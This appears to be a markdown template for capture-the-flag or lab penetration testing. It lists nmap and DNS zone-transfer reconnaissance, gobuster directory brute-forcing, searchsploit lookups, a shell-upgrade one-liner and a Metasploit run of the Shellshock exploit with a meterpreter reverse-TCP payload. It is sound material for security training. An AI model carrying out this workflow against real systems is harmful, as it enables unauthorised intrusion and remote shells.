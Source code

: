 # tempalte, flow

## Summary

+ example

## prev enum

```sh
sudo nmap -sS -sC -sV -oA ./nmap/full_sS -O -p- <hostslot>
  # rename-tab
sudo vim /etc/hosts
```

## web enum

### dns recon

```sh
nslookup
  # AD, find DC, etc.

# try zone transfer
host -l <hostslot> <dnsServer>
dnsrecon -d <hostslot> -t axfr
  # dnsrecon -d megacorpone.com -t axfr
```

### gobuster

```sh
dict="/usr/share/wordlists/dirb/common.txt"
ls -lah $dict                                    # 36KB
gobuster dir -u http://<hostslot>/ -w $dict -t 20 -e -x php,asp,json,aspx
  # 5min
  # find /cgi-bin/ (status 403)

gobuster dir -u http://<hostslot>/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -t 20 -e -x cgi,sh,pl,py,rb,php
  # 5min
  # find /user.sh (status 200)
```

## exploit (user shell)

### searchsploit

```sh
search keywords
searchsploit keywords
```

```sh
cdee
cp /usr/share/exploitdb/exploits/example ~/assets/example/temp.php
cda
```

### example-vector

### interactive shell

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
  # C-z to background the shell
stty raw -echo; fg
```

## exploit (root)

### post enum

```sh
ps aux
sudo -l
```

### privilege escalation

```sh
```

## msf

```msfconsole
msf> search <keywords>
  # 2  exploit/multi/http/apache_mod_cgi_bash_env_exec      2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
msf> use 2
msf> show advanced
msf> show options
msf> set RHOSTS <hostslot>
msf> ...

msf> show payloads
  # 14 payload/linux/x86/meterpreter/reverse_tcp                          normal  No     Linux Mettle x86, Reverse TCP Stager
msf> set payload 14

msf> run -j
  # meterpreter user shell
```
